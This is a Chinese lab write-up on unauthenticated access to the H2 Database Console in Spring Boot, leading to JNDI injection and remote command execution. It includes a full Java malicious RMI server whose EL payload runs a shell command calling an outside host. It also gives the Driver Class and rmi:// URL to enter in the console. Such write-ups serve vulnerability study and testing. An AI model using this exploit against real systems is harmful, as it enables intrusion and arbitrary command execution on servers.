 # H2 Database Console 未授权访问

## 漏洞描述

H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e

## 环境搭建

执行如下命令启动一个Springboot + h2database环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/h2-console/`即可查看到H2 database的管理页面。

## 漏洞复现

目标环境是Java 8u252，版本较高，因为上下文是Tomcat环境，我们可以参考《[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)》，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

我们可以借助这个小工具[JNDI](https://github.com/JosephTribbianni/JNDI)简化我们的复现过程。

首先设置JNDI工具中执行的命令为`touch /tmp/success`：

![image-20220223235645410](images/202202232356618.png)

然后启动`JNDI-1.0-all.jar`，在h2 console页面填入JNDI类名和URL地址：

![image-20220224001157803](images/202202240011878.png)

Driver Class（JNDI的工厂类）：

```
javax.naming.InitialContext
```

JDBC URL（运行JNDI工具监听的RMI地址）：

```
rmi://192.168.128.1:23456/BypassByEL
```

点击连接后，恶意RMI成功接收到请求：

![image-20220224001238367](images/202202240012570.png)

`touch /tmp/success`已成功执行：

![image-20220224001248279](images/202202240012334.png)
